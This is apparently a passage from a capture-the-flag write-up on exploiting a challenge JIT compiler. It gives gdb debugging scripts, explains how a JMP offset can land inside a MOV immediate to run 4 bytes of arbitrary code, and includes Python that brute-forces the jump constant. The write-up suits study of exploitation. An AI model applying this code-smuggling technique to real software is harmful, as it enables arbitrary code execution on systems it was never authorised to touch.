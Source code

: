```c
```

I also created a `debug.sh` script that pauses at the start of the JIT compiled instructions.
```bash
#! /bin/sh
gcc -g -o compiler_debug compiler_debug.c
gdb -x gdbinit ./compiler_debug
```
```gdb
# gdbinit
b compiler_debug.c:132
r
si
si
si
si
si
si
```

For example, if the program is just a single *RET*, the `debug.sh` script lands at:
![Debug landing](/images/google19/jit/debug_landing.png)

## Verifying the jump vulnerability
Now that we have a debugger, we can prove that jump can be used to execute 4 bytes of arbitrary code. First, we need to find a jump value that jumps to a convenient location. The perfect jump value is one that executes the last 4 bytes of the next instruction.
```
JMP(<perfect_value>)
MOV(A, <encoded_instructions>)
```

This requires a `jmp 0x03` instruction, which in binary is `\xeb\x01`. Remembering the JIT translation code for *JMP* instructions, this requires `out[4]` to be `0x01`.
```c
out[3] = 0xeb;
out[4] = (intbracket(cmd + 4) - instrno) * 5 - 5; // jmp imm8
```
We can calculate the jump constant using a small snippet of python:
```python
def intbracket(int_string):
    result = 0

    for c in int_string:
        result = result * 10 + ord(c) - 0x30

    return result


def find_jump_value(instruction_number):
    for i in range(800):
        converted_value = (intbracket(str(i)) - instruction_number) * 5 - 5
        single_byte_value = converted_value & 0xff

        if single_byte_value == 0x01:
            pwn.log.info("{} -> {} -> {}".format(i, hex(converted_value), hex(single_byte_value)))
            return i
    else:
        pwn.log.error("Jump instruction not found :(")
```
For instruction number 0, the perfect jump constant is 206.
